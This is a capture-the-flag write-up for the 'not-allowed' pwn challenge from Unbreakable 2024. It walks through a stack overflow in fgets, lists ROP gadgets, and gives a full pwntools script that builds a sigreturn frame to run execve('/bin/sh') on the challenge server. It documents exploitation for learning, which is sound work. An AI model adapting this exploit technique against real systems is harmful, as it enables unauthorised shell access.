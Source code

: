 ```yaml
---
title: not-allowed
date: 2024-04-07T14:23:28+03:00
description: Writeup for not-allowed [Unbreakable 2024]
type: writeup
author: sunbather
tags:
- pwn
- srop
draft: false
---
```

___

## Challenge Description

Silence speaks louder than words.

## Intuition

We receive a simple binary with two functions: *main* and *wish*. The main function sets up stream buffering with *setvbufs* and then does a call to fgets that is obviously overflowing the destination buffer.

```c
void main(void)
{
  char local_28 [32];
  
  setup(stdin,0,2,0);
  setup(stdout,0,2,0);
  setup(stderr,0,2,0);
  fgets(local_28,600,stdin);
  return;
}
```
Since the stack is NX, our remaining option is to ROP. Sadly we don't have a lot of gadgets, but we do notice a few important ones when dumping with ROPgadget:

```
0x00000000004011ce : inc al ; ret
0x0000000000401156 : pop rdi ; ret
0x000000000040101a : ret
0x0000000000401162 : sub eax, eax ; ret
0x00000000004011cc : syscall
```

We have control over RAX, RDI and we also have a syscall gadget. Sadly however, the imported libc functions do not let us print anything! So we cannot leak libc and jump to *system* or *execve*. We can, however, do SROP! We can craft a signal return frame on the stack and then trigger it using a sigreturn syscall. But how do we get an address for ``/bin/sh``? The *wish* function has everything prepared for us:

```c
void wish(void)
{
  string[0] = 'H';
  string[1] = 'e';
  string[2] = 'r';
  string[3] = 'e';
  string[4] = ' ';
  string[5] = 'y';
  string[6] = 'o';
  string[7] = 'u';
  string[8] = ' ';
  string[9] = 'g';
  string[10] = 'o';
  string[11] = ':';
  string[12] = ' ';
  string[13] = '/';
  string[14] = 'b';
  string[15] = 'i';
  string[16] = 'n';
  string[17] = '/';
  string[18] = 's';
  string[19] = 'h';
  string[20] = '\0';
  return;
}
```
We simply need to get the address corresponding to ``string[13]`` and call this function before we use the sigreturn syscall. Binary is non-PIE so getting the addresses to all those gadgets and objects is trivial.

## Solution

```py
#!/usr/bin/env python3

from pwn import *

context.clear()
context.arch = "amd64"

#target = process("./not-allowed")
target = remote("34.141.109.85", 31555)

wish_addr = 0x00401175
sh_addr = 0x40407d
syscall_gadget = 0x4011cc
inc_al_gadget = p64(0x00000000004011ce)
zero_rax = p64(0x0000000000401161)

# frame that will call execve(/bin/sh)
frame = SigreturnFrame()
frame.rax = 59 # syscall code for execve
frame.rdi = sh_addr
frame.rsi = 0
frame.rdx = 0
frame.rsp = 0
frame.rip = syscall_gadget

# 1. call wish
# 2. zero out rax w/ sub eax, eax
# 3. increment RAX to 15 (sigreturn)
# 4. syscall sigreturn
# 5. ???
# 6. profit
payload = b"a" * 0x28 + p64(wish_addr) + zero_rax + inc_al_gadget * 15 + p64(syscall_gadget) + bytes(frame)

target.sendline(payload)
target.interactive()
```

